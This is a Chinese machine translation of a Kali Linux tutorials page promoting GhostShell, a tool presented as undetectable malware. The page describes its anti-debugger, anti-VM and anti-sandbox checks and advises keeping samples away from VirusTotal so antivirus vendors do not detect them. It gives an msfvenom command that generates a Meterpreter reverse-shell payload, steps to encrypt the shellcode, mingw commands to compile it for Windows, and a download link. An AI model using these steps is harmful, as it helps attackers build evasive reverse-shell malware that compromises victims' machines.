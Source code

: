 # GhostShell:防病毒旁路技术和反反汇编无法检测的恶意软件

> 原文：<https://kalilinuxtutorials.com/ghostshell/>

[![GhostShell : Malware Indetectable With AV Bypass Techniques & Anti-Disassembly](img//9c3f4f9670ac462a46ba27998fe29c38.png "GhostShell : Malware Indetectable With AV Bypass Techniques & Anti-Disassembly")](https://1.bp.blogspot.com/-a1M9C3YA6nc/XuBVDU9-svI/AAAAAAAAGkU/f-YKp17e68gl8q0552VEpeAZvNHPTaWhwCLcBGAsYHQ/s1600/generating%2Bshellcode.gif)

**GhostShell** 是一款不可检测的恶意软件，具有 AV 旁路技术、反反汇编等。在这种恶意软件中，使用了一些技术来尝试绕过 AVs、虚拟机和沙箱，只是希望了解更多。我不对你的行为负责。

**注意！！！**

要检查防病毒软件是否检测到恶意软件，请不要将其发送给 virustotal，它将被发送给防病毒公司并被破解，要进行分析，请将其发送给[https://www.hybrid-analysis.com/](https://www.hybrid-analysis.com/)，并记住选中“不要将我的样本发送给非附属第三方”选项，如下例所示。

**又读——[法拉第:协同渗透测试&漏洞管理平台](https://kalilinuxtutorials.com/faraday/)**

**旁路技术**

*   **反调试器**:为了尝试绕过调试器，我使用“Windows.h”函数库的“IsDebuggerPresent()”来检查调试器是否正在运行。
*   **反虚拟机/反沙盒/反反病毒**
    *   **枚举进程函数**枚举系统上运行的所有进程，并与黑名单中的进程进行比较，如果发现一个进程，且该进程等于黑名单中的任何进程，则返回-1(已识别)。
    *   **睡眠加速检查功能**先获取当前时间，睡眠 2 分钟，然后，再次获取时间，比较，如果差值小于 2，返回-1(已识别)。
    *   **mac 地址检查功能**获取系统 mac 地址，并与黑名单中的 mac 进行比较，如果系统 Mac 地址等于黑名单中的任何 Mac，则返回-1(已识别)。

**生成外壳代码**

![GhostShell : Malware Indetectable With AV Bypass Techniques & Anti-Disassembly](img//9c3f4f9670ac462a46ba27998fe29c38.png "GhostShell : Malware Indetectable With AV Bypass Techniques & Anti-Disassembly")

要在终端中生成 shellcode 类型:`**msfvenom -p windows/meterpreter/reverse_shell lhost=(IP) lport=(PORT) -f c**`，复制生成的 shellcode 并加密。

*   若要加密外壳代码，请使用 encrypt_shellcode 脚本。
    *   在 linux 上类型:`**./encrypt_shellcode e "(KEY, ex: "\xda\xe6\x1d\x5c\x9v\x8d") "(shellcode)""**`
    *   在 windows 上键入:`**encrypt_shellcode.exe e "(KEY, ex: "\xda\xe6\x1d\x5c\x9v\x8d") "(YOUR_SHELLCODE)""**`

**如何在 Linux 上为 Windows 编译？**

要在 Linux 上编译 Windows，首先安装 mingw-w64: `**sudo apt-get install mingw-w64**`，然后编译 32 位:`**i686-w64-mingw32-gcc -o main.exe main.c -l psapi -static**`，64 位:`**x86_64-w64-mingw32 -o main.exe main.c -l psapi -static**`

[**Download**](https://github.com/ReddyyZ/GhostShell)